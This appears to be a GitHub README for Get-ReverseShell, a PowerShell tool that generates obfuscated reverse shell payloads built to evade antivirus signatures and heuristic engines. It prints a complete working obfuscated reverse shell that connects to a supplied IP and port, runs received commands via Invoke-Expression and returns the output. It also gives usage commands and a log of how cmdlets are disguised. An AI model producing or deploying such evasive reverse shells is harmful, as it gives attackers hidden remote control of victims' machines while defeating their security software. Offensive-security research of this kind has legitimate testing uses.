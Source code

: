 # Obfuscated PowerShell Reverse Shells

Get-ReverseShell is a project that stems from the [Invoke-PSObfuscation](https://github.com/gh0x0st/Invoke-PSObfuscation) framework, with the sole purpose of producing obfuscated reverse shells for PowerShell. With the way this framework is built, each component of the original payload goes through a randomly selected generator, resulting in a different yield with every execution of this script. 

Due to the complexity of the obfuscation logic, the resulting payloads will be very difficult to signature and will slip past heuristic engines that are not programmed to emulate the inherited logic.

___IMPORTANT___

Despite this script being built on Kali, you can also use it on Windows to produce these payloads. While I encourage you to keep this script on Kali, I have added some safeguards for those that will store this on a system with Antivirus installed, such as Windows with Defender enabled.

This script contains a function called `Get-Template` that produces the reverse shell payload that is passed through each of the generator functions. If the template script is stored in its raw state, it would be instantly flagged once it's written to disk or executed. To help prevent this from happening, the function has been relatively obfuscated. However, the obfuscated payloads themselves are fair game to store where you deem appropriate.

## Requirements

This script was built and tested on the following version Kali Linux and PowerShell. The obfuscated reverse shells are compatible on Windows/Linux systems that support PowerShell newer than version 2.0

```shell
┌──(kali㉿kali)-[/home/kali]
└─PS> $PSVersionTable

Name                           Value
----                           -----
PSVersion                      7.2.4
PSEdition                      Core
GitCommitId                    7.2.4
OS                             Linux 5.18.0-kali5-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.18.5-1kali6 (2022-07-07)
Platform                       Unix
PSCompatibleVersions           {1.0, 2.0, 3.0, 4.0…}
PSRemotingProtocolVersion      2.3
SerializationVersion           1.1.0.1
WSManStackVersion              3.0
```

## Usage Examples

To load the script on Kali Linux, open a terminal then run `pwsh`. With PowerShell now running in your terminal, you can load the script into your current session by dot sourcing the script.

```shell
┌──(kali㉿kali)-[~]
└─$ pwsh
PowerShell 7.2.4
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.


┌──(kali㉿kali)-[/home/kali]
└─PS> . ./Get-ReverseShell.ps1
```

If you run the script and supply only an IP address and port, then every supported script component will be obfuscated and output to the console.

```shell
┌──(kali㉿kali)-[/home/kali]
└─PS> Get-ReverseShell -Ip 127.0.0.1 -Port 443

     >> Layer 0 Reverse Shell
     >> https://github.com/gh0x0st

$9bu74RLxidUDk = & (("4us0Qpzt5b9navewiNEjqfxmZgRrSBKFW3JMVX2I8LDY6HACyTc7dOhkP-U1loG")[17,14,15,57,53,9,19,14,50,7] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_})(([string]::join('', ( (49,50,55,46,48,46,48,46,49) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_}),$(0+0-0-443+443+443));$kxjaLK6qrECXjf2 = ((& (("tFqYIQ1HnjmkK9PdoUbMzlCR27uv4yEpNxr85L-XSfWJhDiZTac3BGg6wesVOA0")[46,8,27,16,11,57,38,57,33,31,34,57,58,58,46,16,8] -join '')([string]::join('', ( (36,57,98,117,55,52,82,76,120,105,100,85,68,107,46,71,101,116,83,116,114,101,97,109,40,41) |%{ ( [char][int] $_)})) | % {$_})));[byte[]]$9uR0tN24DBEA9YsVNLOnIrx2s = 0..$($(0+60000)+$(0+0-0+5000)+(500)+($(35)))|%{;$_}|%{0};while(($5aH = $kxjaLK6qrECXjf2.Read($9uR0tN24DBEA9YsVNLOnIrx2s, 0, $9uR0tN24DBEA9YsVNLOnIrx2s.Length)) -ne 0){;$jIguPvaSK1ZilFymBVhTA = (& (("4us0Qpzt5b9navewiNEjqfxmZgRrSBKFW3JMVX2I8LDY6HACyTc7dOhkP-U1loG")[17,14,15,57,53,9,19,14,50,7] -join '') -TypeName ([string]::join('', ( (83,121,115,116,101,109,46,84,101,120,116,46,65,83,67,73,73,69,110,99,111,100,105,110,103) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_})).GetString($9uR0tN24DBEA9YsVNLOnIrx2s,0, $5aH);$U = (& (("PljCFMKRq1-LpYeVWtNnku2Q8iJT0OzHg7Uxo5svyXh9GcAEawIb643dmfBSZrD")[50,19,39,36,20,14,10,47,35,12,61,14,38,38,25,36,19] -join '') $jIguPvaSK1ZilFymBVhTA 2>&1 |%{;$_}| & (("MTSO1XIqriP2ox4bGsuZtk0wEHhj9f8QnVdaBgcyLFN6Cz3DYWR-l5vUAmKJpe7")[3,18,20,51,2,20,8,9,32,37] -join '') );$GemSDxKaU = $U + $([char](30+87-30)+[char](97*72/97)+[char](106*65/106)+[char](21*84/21)+[char](0+32-0)+[char](88*87/88)+[char](0+72-0)+[char](0+69-0)+[char](0+82-0)+[char](51+69-51)+[char](80+62-80)+[char](42*32/42)) -replace $('W'+'H'+'E'+'R'+'E'),(& ([string]::join('', ( (71,101,116,45,76,111,99,97,116,105,111,110) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_})).Path -replace $([char](113*87/113)+[char](0+72-0)+[char](104*65/104)+[char](29+84-29)),([string]::join('', ( (80,83) |%{;$_}|%{ ( [char][int] $_)})) |%{;$_}| % {$_});$xz1V87nrk4C9g2omRSHwHrTU1 = ([text.encoding]::ASCII).GetBytes($GemSDxKaU);$kxjaLK6qrECXjf2.Write($xz1V87nrk4C9g2omRSHwHrTU1,0,$xz1V87nrk4C9g2omRSHwHrTU1.Length);$($kxjaLK6qrECXjf2.Flush())};$((& (("KDU-6exQHZgPzTYpVCvijL79Nf4du5ns2F3oym8WSrbGOE10tIqcAJlBwRMhXak")[19,30,18,35,62,5,3,5,6,15,41,5,31,31,19,35,30] -join '')([string]::join('', ( (36,57,98,117,55,52,82,76,120,105,100,85,68,107,46,67,108,111,115,101,40,41) |%{ ( [char][int] $_)})) | % {$_})))
```

In lieu of having the output sent to the console, we can also have the output saved to a file instead.

```shell
┌──(kali㉿kali)-[/home/kali]
└─PS> Get-ReverseShell -Ip 127.0.0.1 -Port 443 -OutFile obfuscated.ps1

     >> Layer 0 Reverse Shell
     >> https://github.com/gh0x0st

[*] Writing payload to obfuscated.ps1
```

Where this script has been built from `Invoke-PSObfuscation`, we have the ability to target specific script components. In addition to this, if we wanted to learn more about what was obfuscated and back trace the function that generated the obfuscated logic, we can include to the `ShowChanges` paramter. This paramter will instruct the script to display each targeted component, the obfuscated value that will be replacing it and the generator that was used. 

```shell
┌──(kali㉿kali)-[/home/kali/]
└─PS> Get-ReverseShell -Ip 127.0.0.1 -Port 443 -Aliases -Cmdlets -Methods -ShowChanges

     >> Layer 0 Reverse Shell
     >> https://github.com/gh0x0st

[*] Resolving aliases
[-] % >> ForEach-Object
[-] iex >> Invoke-Expression
[-] pwd >> Get-Location
[*] Targeting cmdlets
[-] Generator 1 >> New-Object >> & (("-FxDfVShXwGbQL92Ir4OAKiYvBce3EuUz6tTH8sqCM15aR7gZPdnyjJW0mlpoNk")[61,27,9,0,19,11,53,27,26,34] -join '')
[-] Generator 1 >> New-Object >> & (("AJkOmSpw2HGodY18EqsnlCX6iZbDx0yhKIueL9BRM-3NWUPQ5r7Fjaz4VfcvgTt")[43,35,7,41,3,26,52,35,58,62] -join '')
[-] Generator 2 >> Invoke-Expression >> & ([string]::join('', ( (73,110,118,111,107,101,45,69,120,112,114,101,115,115,105,111,110) |%{ ( [char][int] $_)})) | % {$_})
[-] Generator 1 >> Out-String >> & (("FKBgMmk43lvqcnoZEzWU1rHViJwpAQuOfxGbLC82Y5Ih9XNTd-syS6aDtPje0R7")[31,30,56,49,52,56,21,24,13,3] -join '')
[-] Generator 1 >> Get-Location >> & (("hmdf2Y5RJ8wNAF19rIVvOonG6ckpH4sSlx0QWqCyz3bBtUaguMZ-jiXPKELD7eT")[23,61,44,51,58,21,25,46,44,53,21,22] -join '')
[*] Targeting method invocations
$TuVIzXNvenGCmPU.GetStream() >> $($(($TuVIzXNvenGCmPU.GetStream())))
[-] Generator 2 >> $VaKhGdMJw6.Flush() >> $($(& ([string]::join('', ( (105,110,118,111,107,101,45,101,120,112,114,101,115,115,105,111,110) |%{ ( [char][int] $_)})) | % {$_})([string]::join('', ( (36,86,97,75,104,71,100,77,74,119,54,46,70,108,117,115,104,40,41) |%{ ( [char][int] $_)})) | % {$_})))
$TuVIzXNvenGCmPU.Close() >> $($($($TuVIzXNvenGCmPU.Close())))
```
